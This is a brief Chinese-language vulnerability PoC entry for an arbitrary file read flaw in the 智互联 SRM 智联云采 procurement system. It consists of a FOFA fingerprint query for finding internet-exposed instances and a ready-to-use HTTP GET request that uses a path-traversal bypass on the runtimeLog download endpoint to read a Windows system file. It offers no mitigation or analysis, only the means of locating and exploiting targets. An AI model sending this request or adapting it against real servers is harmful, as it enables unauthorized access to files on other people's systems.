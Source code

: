 # 智互联(深圳)科技有限公司SRM智联云采系统download存在任意文件读取漏洞

智互联(深圳)科技有限公司SRM智联云采系统download存在任意文件读取漏洞

## fofa

```yaml
title=="SRM 2.0"
```

## poc

```java
GET /adpweb/static/%2e%2e;/a/sys/runtimeLog/download?path=c:\\windows\win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408162052746.png)
